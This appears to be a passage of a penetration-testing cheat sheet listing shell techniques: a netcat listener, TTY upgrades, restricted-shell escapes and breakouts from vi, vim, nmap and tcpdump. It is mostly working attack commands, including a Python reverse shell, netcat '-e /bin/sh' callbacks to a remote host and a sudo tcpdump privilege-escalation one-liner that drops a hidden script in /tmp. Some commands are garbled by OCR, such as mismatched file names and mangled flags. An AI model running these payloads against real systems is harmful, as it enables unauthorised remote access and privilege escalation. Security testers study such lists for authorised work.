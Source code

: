 -   Netcat Shell Listener  
    nc -nlvp 443

-   Spawning a TTY Shell - Break out of Jail or limited shell
         You should almost always upgrade your shell after taking control of an apache or www user.
        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )
        (hint: sudo -l to see what you can run)
        
     -   You may encounter limited shells that use rbash and only allow you to execute a single command per session.
         You can overcome this by executing an SSH shell to your localhost:
         
         `ssh user@$ip nc $localip 4444 -e /bin/sh`
         
         `enter user's password`
         
         `python -c 'import pty; pty.spawn("/bin/sh")'`
         
         `export TERM=linux`
         

     -   python -c 'import pty; pty.spawn("/bin/sh")'

     -   python -c 'import
         socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);
         s.connect(("$ip",1234));os.dup2(s.fileno(),0);
         os.dup2(s.fileno(),1);
         os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

     -   echo os.system('/bin/bash')

     -   /bin/sh -i

     -   perl —e 'exec "/bin/sh";'

     -   perl: exec "/bin/sh";

     -   ruby: exec "/bin/sh"

     -   lua: os.execute('/bin/sh')

     -   (From within IRB)  
         exec "/bin/sh"

     -   (From within vi)  
         :!bash

     -   From within vim  
         Breaking out of vim is done by ':!bash':

     -   (From within vi)  
         :set shell=/bin/bash:shell

     -   (From within nmap)  
         !sh

     -   (From within tcpdump)  
         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ >
         /tmp/.test  
         chmod +x /tmp/.test  
         sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst
         –Z root
